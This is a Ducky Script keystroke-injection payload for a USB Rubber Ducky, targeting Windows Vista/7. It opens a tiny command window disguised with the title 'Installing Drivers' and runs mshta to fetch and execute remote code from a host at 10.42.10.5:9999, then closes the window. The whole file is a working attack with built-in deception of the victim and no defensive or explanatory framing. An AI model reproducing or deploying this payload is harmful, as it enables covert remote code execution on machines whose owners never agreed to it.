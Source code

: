# rubber_payload

REM Target: WINDOWS VISTA/7
REM Encoder V2.4
REM Using the run command for a broader OS base.
DELAY 1000
GUI r
DELAY 500
STRING cmd /T:01 /K "@echo off&& mode con:COLS=35 LINES=1 && title Installing Drivers" 
DELAY 200
ENTER
DELAY 500
STRING mshta  http://10.42.10.5:9999/t & exit
DELAY 500
ENTER
DELAY 100
STRING exit
DELAY 500
ENTER

